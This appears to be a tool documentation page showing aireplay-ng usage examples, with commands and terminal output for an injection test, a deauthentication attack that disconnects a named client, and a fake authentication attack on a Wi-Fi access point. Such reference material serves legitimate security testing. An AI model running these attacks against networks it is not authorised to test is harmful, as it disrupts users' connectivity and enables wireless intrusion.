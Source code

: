 ### aireplay-ng Usage Examples <a href="#aireplay-ng-usage-examples" id="aireplay-ng-usage-examples"></a>

#### Injection Test <a href="#injection-test" id="injection-test"></a>

Run the injection test (`-9`) via the monitor mode interface `wlan0mon`.

```
:~# aireplay-ng -9 wlan0mon
22:55:44  Trying broadcast probe requests...
22:55:44  Injection is working!
22:55:46  Found 4 APs

22:55:46  Trying directed probe requests...
22:55:46  24:FB:95:FD:3D:7F - channel: 6 - 'America'
22:55:52   30/30: 100%

22:55:52  34:6D:A0:CD:45:10 - channel: 6 - 'ATT2b8i4UD'
22:55:58   27/30:  90%

22:55:58  50:64:3D:2A:F7:A0 - channel: 6 - 'FBI surveillance van'
22:56:04   12/30:  40%

22:56:04  16:6E:EF:29:67:46 - channel: 6 - 'dd-wrt_vap'
22:56:10   1/30:   3%
```

#### Deauthentication Attack <a href="#deauthentication-attack" id="deauthentication-attack"></a>

Run the deauthentication attack (`-0`), sending `5` packets to the wireless access point (`-a 8C:7F:3B:7E:81:B6`) to deauthenticate a wireless client (`-c 00:08:22:B9:41:A1`) via the monitor mode interface `wlan0mon`.

```
:~# aireplay-ng -0 5 -a 8C:7F:3B:7E:81:B6 -c 00:08:22:B9:41:A1 wlan0mon
12:41:56  Waiting for beacon frame (BSSID: 8C:7F:3B:7E:81:B6) on channel 6
12:41:57  Sending 64 directed DeAuth. STMAC: [00:08:22:B9:41:A1] [ 0| 0 ACKs]
12:41:58  Sending 64 directed DeAuth. STMAC: [00:08:22:B9:41:A1] [ 0| 0 ACKs]
12:41:58  Sending 64 directed DeAuth. STMAC: [00:08:22:B9:41:A1] [ 0| 0 ACKs]
12:41:59  Sending 64 directed DeAuth. STMAC: [00:08:22:B9:41:A1] [ 0| 0 ACKs]
12:42:00  Sending 64 directed DeAuth. STMAC: [00:08:22:B9:41:A1] [ 0| 0 ACKs]
```

#### Fake Authentication <a href="#fake-authentication" id="fake-authentication"></a>

Run the fake authentication attack and re-authenticate every 6000 seconds (`-1 6000`) against the access point (`-a F0:F2:49:82:DF:3B`) with the given ESSID (`-e FBI-Van-24`), specifying our mac address (`-h 3c:46:d8:4e:ef:aa`), using monitor mode interface `wlan0mon`.

```
:~# aireplay-ng -1 6000 -e FBI-Van-24 -a F0:F2:49:82:DF:3B -h 3c:46:d8:4e:ef:aa wlan0mon
12:49:59  Waiting for beacon frame (BSSID: F0:F2:49:82:DF:3B) on channel 6

12:50:06  Sending Authentication Request (Open System)
```
